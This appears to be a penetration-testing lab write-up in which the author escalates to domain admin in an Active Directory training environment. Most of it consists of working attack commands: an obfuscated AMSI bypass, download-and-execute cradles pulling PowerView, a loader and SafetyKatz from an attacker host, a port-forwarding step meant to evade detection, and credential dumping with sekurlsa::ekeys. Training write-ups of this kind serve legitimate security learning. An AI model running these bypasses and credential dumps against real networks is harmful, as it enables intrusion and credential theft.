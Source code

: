# 🪜 Domain admin session in target domain -> escalate privileges

We are going to start by using **Find-DomainUserLocation** on the reverse shell we got earlier as ciadmin to looks for machines where a domain admin is logged in.

{% embed url="https://powersploit.readthedocs.io/en/latest/Recon/Find-DomainUserLocation/" %}

So we start by hosting our web server using wsl to bypass Enhanced Script Block Logging. Unfortunately, we have no in-memory bypass for PowerShell transcripts. Note that we could also paste the contents of sbloggingbypass.txt in place of the download-exec cradle.

```
iex (iwr http://172.16.100.13/sbloggingbypass.txt -UseBasicParsing)
```

Then we use the below command to bypass AMSI:

```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

Then we had a tip from a guy on discord to host a web server using WSL rather than hfs.exe ->

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

We then download power View on the target machine and launch the following command: Find-DomainUserLocation on the reverse shell to looks for machines where a domain admin is logged in.&#x20;

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

```
iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.13:6565/PowerView.ps1'))
```

```
Find-DomainUserLocation
```

We can see that there is a domain admin session on dcorp-mgmt server!

Now, we have to check if we can execute commands on dcorp-mgmt server and if the winrm port is open:

`winrs` (Windows Remote Shell) is a command-line tool that allows you to execute commands on remote Windows machines. It is similar to SSH for Windows systems.

```
winrs -r:dcorp-mgmt set computername;set username
```

Now we need to copy the Loader.exe to dcorp-mgmt:

First we copy it to our reverse shell then we load it on the target machine ->

```
iwr http://172.16.100.13:6565/Loader.exe -OutFile C:\Users\Public\Loader.exe
echo F | xcopy C:\Users\Public\Loader.exe \\dcorp-mgmt\C$\Users\Public\Loader.exe
```

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

We need to avoid detection on  `dcorp-mgmt` by setting up port forwarding. This will allow traffic to be redirected from one port to another, effectively masking the original connection.

```
$null | winrs -r:dcorp-mgmt "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.13"
```

Then i wanted to run SafetyKatz

```
$null | winrs -r:dcorp-mgmt C:\Users\Public\Loader.exe -path http://172.16.100.13:6565/SafetyKatz.exe sekurlsa::ekeys exit
```

And unexpectedly it worked without any problems ->

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption><p>*ThisisBlasphemyThisisMadness!! // 6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011</p></figcaption></figure>

